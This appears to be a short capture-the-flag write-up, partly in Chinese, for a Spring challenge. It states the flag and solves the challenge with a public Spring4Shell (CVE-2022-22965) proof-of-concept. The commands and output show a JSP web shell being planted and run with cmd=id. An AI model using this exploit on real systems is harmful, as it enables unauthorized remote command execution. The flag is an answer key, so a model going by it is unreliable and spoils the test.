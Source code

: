 ## How Beautiful Spring Is

### description

春天多美好啊，只可惜疫情来了……

猫猫在春天里做了什么梦呢？



### flag

`tjctf{W0w_y0u_F1nd_m3ow's_Dr3@m_iN_SpR1n9}`



### writeup

CVE-2022-22965: Spring-Core-Rce, a.k.a. spring4shell

随便找个 poc 打一打就行了。

```bash
$ git clone https://github.com/reznok/Spring4Shell-POC
$ cd Spring4Shell-POC
$ python3 exploit.py --url http://ip:port/api/meow
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://ip:port/shell.jsp?cmd=id
```

flag 在 根目录下的 `/'.fl@g_1$_h3re'`